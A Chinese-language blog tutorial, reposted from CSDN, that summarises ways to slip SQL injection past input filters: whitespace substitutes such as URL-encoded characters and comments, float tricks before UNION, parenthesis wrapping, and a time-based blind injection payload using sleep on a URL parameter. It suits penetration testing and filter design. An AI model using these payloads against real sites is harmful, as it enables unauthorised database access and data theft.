 ```yaml
---
layout: post
category: binghe-code-hack
title: SQL注入绕过技术总结
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: SQL注入绕过技术总结
lock: need
---
```


# SQL注入绕过技术总结

转载请注明出处：https://blog.csdn.net/l1028386804/article/details/85869703

## 绕过空格（注释符/* */，%a0） 

两个空格代替一个空格，用Tab代替空格，%a0=空格：

```sql
%20 %09 %0a %0b %0c %0d %a0 %00 /**/  /*!*/
```

最基本的绕过方法，用注释替换空格：

```sql
/*  注释 */
```

![img](https://img-blog.csdnimg.cn/20190105195808456.png))

使用浮点数：

```sql
select * from users where id=8E0union select 1,2,3
select * from users where id=8.0 select 1,2,3
```

## 括号绕过空格

如果空格被过滤，括号没有被过滤，可以用括号绕过。
在MySQL中，括号是用来包围子查询的。因此，任何可以计算出结果的语句，都可以用括号包围起来。而括号的两端，可以没有多余的空格。
例如：

```sql
select(user())from dual where(1=1)and(2=2)
```

这种过滤方法常常用于time based盲注,例如：

```sql
?id=1%27and(sleep(ascii(mid(database()from(1)for(1)))=109))%23
```

（from for属于逗号绕过下面会有）
上面的方法既没有逗号也没有空格。猜解database（）第一个字符ascii码是否为109，若是则加载延时。
